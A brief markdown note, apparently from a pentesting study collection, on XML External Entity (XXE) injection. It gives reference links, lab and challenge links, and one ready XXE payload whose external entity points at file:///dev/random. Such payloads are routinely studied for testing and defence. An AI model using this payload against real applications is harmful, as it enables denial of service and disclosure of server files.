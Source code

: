﻿

**Xpath or XXE (Xml External Entity )**

Reference

```
https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection

```

Payload

```
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///dev/random" >]><foo>&xxe;</foo>

```
LAB

    https://pentesterlab.com/exercises/play_xxe/course

OOB XXE Lab

```
https://github.com/fl0rde/xxe-challenge

```


